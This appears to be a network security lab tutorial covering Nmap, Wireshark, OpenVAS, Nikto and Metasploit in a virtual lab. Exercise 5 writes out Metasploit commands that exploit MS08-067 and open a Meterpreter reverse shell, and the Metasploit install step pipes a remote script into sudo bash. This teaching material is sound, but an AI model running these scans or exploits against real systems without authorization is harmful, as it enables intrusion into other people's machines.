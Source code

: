 # Basic Network Security Assessment: Identifying Vulnerabilities in Network Configurations

## Introduction
Network security is crucial for protecting an organization's data and resources from unauthorized access and cyber threats. This project will guide you through a basic network security assessment, focusing on identifying common vulnerabilities in network configurations. You will use various tools to scan, analyze, and secure your network.

## Pre-requisites
- Basic understanding of networking concepts (IP addresses, subnets, routers, etc.)
- Familiarity with the Linux command line
- A computer with a Linux operating system (preferably Ubuntu)
- Internet connection to download necessary tools

## Lab Setup and Tools
- **Lab Environment**: A virtualized network setup using VirtualBox or VMware with at least two virtual machines (one as a target and one as an attacker).
- **Tools**: 
  - Nmap
  - Wireshark
  - OpenVAS
  - Nikto
  - Metasploit

## Exercises

### Exercise 1: Network Scanning with Nmap
**Objective**: Identify live hosts and open ports on the target network.

**Steps**:
1. **Install Nmap**:
    ```sh
    sudo apt-get update
    sudo apt-get install nmap
    ```

2. **Scan the Network**:
    ```sh
    nmap -sn 192.168.1.0/24
    ```
   - This command performs a ping scan to identify live hosts.

3. **Identify Open Ports**:
    ```sh
    nmap -sS 192.168.1.10
    ```
   - Replace `192.168.1.10` with the IP address of a live host found in the previous step.

**Expected Output**:
- List of live hosts in the network.
- Open ports on the specified host.

### Exercise 2: Traffic Analysis with Wireshark
**Objective**: Capture and analyze network traffic to identify potential security issues.

**Steps**:
1. **Install Wireshark**:
    ```sh
    sudo apt-get install wireshark
    ```

2. **Capture Network Traffic**:
    - Open Wireshark.
    - Select the network interface to capture traffic.
    - Click on the "Start" button to begin capturing packets.

3. **Analyze Captured Traffic**:
    - Look for suspicious traffic such as repeated requests, unusual protocols, or large data transfers.

**Expected Output**:
- Capture file with network traffic data.
- Identification of any suspicious traffic patterns.

### Exercise 3: Vulnerability Scanning with OpenVAS
**Objective**: Perform a vulnerability scan on the target network to identify known vulnerabilities.

**Steps**:
1. **Install OpenVAS**:
    ```sh
    sudo apt-get install openvas
    sudo openvas-setup
    ```

2. **Configure and Start OpenVAS**:
    - Access the OpenVAS web interface (usually at `https://localhost:9392`).
    - Login with the admin credentials created during setup.

3. **Run a Vulnerability Scan**:
    - Create a new scan task.
    - Set the target IP address range.
    - Start the scan and wait for it to complete.

**Expected Output**:
- Report detailing identified vulnerabilities and their severity.

### Exercise 4: Web Server Assessment with Nikto
**Objective**: Assess a web server for common vulnerabilities using Nikto.

**Steps**:
1. **Install Nikto**:
    ```sh
    sudo apt-get install nikto
    ```

2. **Scan the Web Server**:
    ```sh
    nikto -h http://192.168.1.10
    ```
   - Replace `192.168.1.10` with the IP address of the target web server.

**Expected Output**:
- Report detailing potential vulnerabilities, misconfigurations, and other issues with the web server.

### Exercise 5: Exploitation Testing with Metasploit
**Objective**: Use Metasploit to exploit a vulnerability identified in previous exercises.

**Steps**:
1. **Install Metasploit**:
    ```sh
    curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/scripts/msfupdate | sudo bash
    ```

2. **Launch Metasploit Console**:
    ```sh
    msfconsole
    ```

3. **Select and Configure an Exploit**:
    ```sh
    use exploit/windows/smb/ms08_067_netapi
    set RHOST 192.168.1.10
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.1.20
    run
    ```
   - Replace `192.168.1.10` with the target IP address.
   - Replace `192.168.1.20` with the attacker's IP address.

**Expected Output**:
- Successful exploitation will open a Meterpreter session on the target machine.

## Conclusion
By completing these exercises, you have learned how to identify and assess common network security vulnerabilities using various tools. This knowledge is fundamental for performing more advanced security assessments and protecting network infrastructures.
